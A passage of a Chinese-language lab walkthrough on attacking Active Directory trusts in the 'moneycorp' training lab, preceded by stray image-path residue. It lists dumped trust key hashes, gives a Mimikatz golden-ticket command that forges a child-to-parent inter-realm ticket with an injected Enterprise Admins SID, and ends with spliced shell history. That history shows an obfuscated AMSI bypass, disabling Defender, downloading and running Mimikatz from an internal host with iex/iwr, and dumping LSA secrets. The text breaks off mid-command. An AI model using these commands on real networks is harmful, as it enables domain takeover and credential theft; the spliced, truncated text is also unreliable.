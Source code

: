 Domain: EUROCORP.LOCAL (ecorp / S-1-5-21-1652071801-1423090587-98612180)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL
    * 1/29/2022 1:20:05 AM - CLEAR   - 1f 6f c4 25 57 c2 50 6e e2 8c b8 94 07 da 97 13 cc 89 5d 6d 0e 47 05 91 74 7c 3a c1
        * aes256_hmac       91df6bcc4a71d585b710532ff73b662d43e4d83a00821f7d509319e4ce1897c5
        * aes128_hmac       47f41fc169b79c34d8af08afa3cfdde9
        * rc4_hmac_nt       cccb3ce736c4d39039b48c79f075a430
```

用powerview可以更加清晰的看到这些关系
```
PS C:\ad> Get-NetDomainTrust -Domain dollarcorp.moneycorp.local

SourceName                 TargetName                      TrustType TrustDirection
----------                 ----------                      --------- --------------
dollarcorp.moneycorp.local moneycorp.local               ParentChild  Bidirectional
dollarcorp.moneycorp.local us.dollarcorp.moneycorp.local ParentChild  Bidirectional
dollarcorp.moneycorp.local eurocorp.local                   External  Bidirectional
```

## 子域到父域（CIFS，访问文件系统）

获取父域的计算机列表
```
PS C:\ad\kekeo_old> Get-NetComputer -Domain moneycorp.local
mcorp-dc.moneycorp.local
dcorp-stdadmin.moneycorp.local
```

很明显，mcorp-dc就是父域里的DC服务器

伪造一条到父域```moneycorp.local```的TGT

从上面信息我们得知，父域的SID是：```S-1-5-21-280534878-1496970234-700767426```

这里需要注意下面命令参数里的rc4，必须是上面枚举出来的
```* rc4_hmac_nt       13d28ca9e5863231c89eda2b2b1756d7```这个值

不能使用Administrator的用户NTML

伪造TGT
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:13d28ca9e5863231c89eda2b2b1756d7 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\kekeo_old\child2parent_trust_tkt.kirbi"'
```

在```C:\AD\kekeo_old```下现在应该可以看到一个child2parent_trust_tkt.kirbi文件

### 方法一 （kekeo）

制作一张可以访问父域moneycorp.local的TGS

```
PS C:\ad\kekeo_old> .\asktgs.exe C:\AD\kekeo_old\child2parent_trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'